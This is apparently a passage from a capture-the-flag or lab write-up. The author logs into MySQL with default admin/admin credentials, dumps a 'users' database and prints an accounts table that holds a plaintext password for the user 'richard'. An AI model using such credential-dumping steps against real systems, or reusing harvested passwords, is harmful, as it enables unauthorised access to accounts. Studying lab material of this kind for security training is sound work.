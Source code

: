 ```sh
-- Current Database: `users`
--

CREATE DATABASE /*!32312 IF NOT EXISTS*/ `users` /*!40100 DEFAULT CHARACTER SET utf8mb4 */;

USE `users`;
```

So seeing there was a 'users' table, I accessed it:

```sh
mysqldump --single-transaction --user=admin users --password=admin
```

```sh
-- MySQL dump 10.16  Distrib 10.1.26-MariaDB, for debian-linux-gnu (x86_64)
--
-- Host: localhost    Database: users
-- ------------------------------------------------------
-- Server version	10.1.26-MariaDB-0+deb9u1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8mb4 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Table structure for table `accounts`
--

DROP TABLE IF EXISTS `accounts`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `accounts` (
  `fullName` varchar(45) DEFAULT NULL,
  `password` varchar(30) DEFAULT NULL,
  `username` varchar(20) DEFAULT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `accounts`
--

LOCK TABLES `accounts` WRITE;
/*!40000 ALTER TABLE `accounts` DISABLE KEYS */;
INSERT INTO `accounts` VALUES ('Richard F. Smith','9tc*rhKuG5TyXvUJOrE^5CK7k','richard');
/*!40000 ALTER TABLE `accounts` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;

```